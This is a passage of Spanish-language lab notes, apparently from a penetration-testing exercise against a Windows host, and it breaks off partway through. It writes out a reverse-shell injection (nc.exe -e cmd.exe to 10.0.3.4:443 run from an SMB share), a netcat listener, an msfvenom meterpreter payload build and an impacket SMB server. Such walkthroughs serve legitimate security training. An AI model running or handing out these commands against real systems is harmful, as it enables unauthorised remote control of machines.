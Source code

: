    
      
    
- En otro terminal nos ponemos a la escucha por un puerto . Por ejemplo por el 443.
    
    ```Bash
    nc -nlvp 443
    ```
    
    ![[Imagenes/image 17 7.png|image 17 7.png]]
    
      
    
- Nos vamos al navegador web y en el formulario de comandos escribimos lo siguiente donde la primera IP es la maquina Kali y la segunda IP también la de mi maquina Kali .
    
    `\\10.0.3.4\recurso\nc.exe -e cmd.exe 10.0.3.4 443`
    
    ![[051a0b24-ccd8-44f9-bdaf-042afab08cf0.png]]
    
    ![[Imagenes/image 18 5.png|image 18 5.png]]
    
      
    
      
    
- Vamos a proceder a acceder desde una meterpreter ya que en esta ocasión no tenemos privilegios `nt authority\servicio de red.`
    
    En esta maquina Windows en concreto no tiene instaladas las utilidades **wget o curl** , las cuales nos hubieran permitido subir un archivo malicioso.
    
    - Creamos un archivo malicioso .exe
        
        ```Bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=444 -f exe -o shell.exe
        ```
        
        ![[Imagenes/image 19 4.png|image 19 4.png]]
        
    
      
    
    - Cerramos el recurso compartido que habíamos creado en caso de tenerlo activo. Y creamos otro nuevo.
        
        ```Bash
        impacket-smbserver recurso $(pwd) -smb2support
        ```
        
        ![[Imagenes/image 20 4.png|image 20 4.png]]
        
          
        
    - En el termina que habíamos abierto anterior mente de la maquina victima nos movemos al directorio **\Temp .** Ya que por lo general en este directorio tenemos permisos de escritura.
        
        `cd ..`
        
        `cd ..`
        
        `cd temp`
        